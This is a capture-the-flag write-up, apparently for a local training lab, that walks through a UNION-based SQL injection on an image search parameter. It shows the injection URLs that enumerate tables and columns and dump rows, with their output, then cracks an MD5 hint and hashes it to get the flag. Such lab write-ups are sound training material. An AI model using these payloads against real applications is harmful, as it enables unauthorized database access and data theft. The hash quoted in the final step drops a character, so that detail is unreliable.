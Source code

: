 # Sql_Injection_basic

The GET parameter in the image search form is vulnerable to sql injection

## Method

Go to the search image page (<http://192.168.1.102/?page=searching>)  
In the search field search '1 and 1 = 1' (which shows you that the form is vulnerable)

## Manipulation

### getting the table name

```

http://192.168.1.102/?page=searchimg&id=-1 union select table_name, 0 from information_schema.tables where table_schema=database()&Submit=Submit

```

#### result

```

ID: -1 union select table_name, 0 from information_schema.tables where table_schema=database() 
Title: 0
Url : list_images

```

### getting the column names

```

http://192.168.1.102/?page=searchimg&id=-1 union select column_name, column_type from information_schema.columns where table_schema=database()&Submit=Submit

```

#### result

```

ID: -1 union select column_name, column_type from information_schema.columns where table_schema=database() 
Title: int(11)
Url : id
ID: -1 union select column_name, column_type from information_schema.columns where table_schema=database() 
Title: varchar(40)
Url : url
ID: -1 union select column_name, column_type from information_schema.columns where table_schema=database() 
Title: varchar(25)
Url : title
ID: -1 union select column_name, column_type from information_schema.columns where table_schema=database() 
Title: varchar(255)
Url : comment

```

### getting information we need

```

http://192.168.1.102/?page=searchimg&id=-1 union select title, comment from list_images&Submit=Submit

```

#### result

```

ID: -1 union select title, comment from list_images 
Title: An image about the NSA !
Url : Nsa
ID: -1 union select title, comment from list_images 
Title: There is a number..
Url : 42 !
ID: -1 union select title, comment from list_images 
Title: Google it !
Url : Google
ID: -1 union select title, comment from list_images 
Title: Yes we can !
Url : Obama
ID: -1 union select title, comment from list_images 
Title: If you read this just use this md5 decode lowercase then sha256 to win this flag ! : 1928e8083cf461a51303633093573c46
Url : Hack me ?
ID: -1 union select title, comment from list_images 
Title: Because why not ?
Url : tr00l

```

You can see that it gives us this helpful part that says "If you read this just use this md5 decode lowercase then sha256 to win this flag ! : 1928e8083cf461a51303633093573c46"
We then follow this intruction to get the flag we need.

## How to get the flag

Decode the hash 1928e8083cf461a51303633093573c4 using md5.gromweb.com website.
Which gives us the original string "Albatroz"
lower all characters and as per the instructions Sh-256 of albatroz is: f2a29020ef3132e01dd61df97fd33ec8d7fcd1388cc9601e7db691d17d4d6188 which is the flag

